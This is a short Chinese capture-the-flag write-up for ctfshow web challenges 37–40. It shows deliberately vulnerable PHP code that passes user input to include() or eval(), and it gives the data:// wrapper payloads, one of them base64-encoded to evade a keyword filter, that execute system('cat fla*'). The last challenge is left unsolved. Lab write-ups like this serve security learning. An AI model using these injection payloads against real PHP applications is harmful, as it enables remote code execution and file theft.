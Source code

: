 ```yaml
---
layout: post
title:  "[命令执行]web37-39"
date:   2021-01-10 23:00:00 +0800
categories: ctfshow
---
```


### Web37

```php
error_reporting(0);
if(isset($_GET['c'])){
  $c = $_GET['c'];
  if(!preg_match("/flag/i", $c)){
    include($c);
    echo $flag;

  }
    
}else{
  highlight_file(__FILE__);
}
```

与前面的相比，这次直接换掉了`eval()`函数，变成了`include`

用伪协议写入数据流，读取flag

[参考文章](https://segmentfault.com/a/1190000018991087)

```
payload:?c=data://text/plain,<?php system("cat fla*")?>
```

### Web38

```php
error_reporting(0);
if(isset($_GET['c'])){
  $c = $_GET['c'];
  if(!preg_match("/flag|php|file/i", $c)){
    include($c);
    echo $flag;

  }
    
}else{
  highlight_file(__FILE__);
}
```

ban掉了`file`和`php`，直接用base64绕过去就行

```
payload:?c=data://text/plain;base64,PD9waHAgc3lzdGVtKCJjYXQgZmxhKiIpPz4=
```

这里应该使用php的`base64_encode($str)`函数加密一下字符串，否则不匹配

### Web39

```php
error_reporting(0);
if(isset($_GET['c'])){
  $c = $_GET['c'];
  if(!preg_match("/flag/i", $c)){
    include($c.".php");
  }
    
}else{
  highlight_file(__FILE__);
}
```

增加了后缀的限制，回在最后传入的时候添加`.php`后缀，限制了传入，但是并不严谨，因为前面的语句已经执行完毕。

`payload:?c=data://text/plain,<?php system("cat fla*")?>`

### Web40

```php
if(isset($_GET['c'])){
  $c = $_GET['c'];
  if(!preg_match("/[0-9]|\~|\`|\@|\#|\\$|\%|\^|\&|\*|\（|\）|\-|\=|\+|\{|\[|\]|\}|\:|\'|\"|\,|\<|\.|\>|\/|\?|\\\\/i", $c)){
    eval($c);
  }
    
}else{
  highlight_file(__FILE__);
}
```

啊不行了，明天看师傅们的wp吧，鸽了

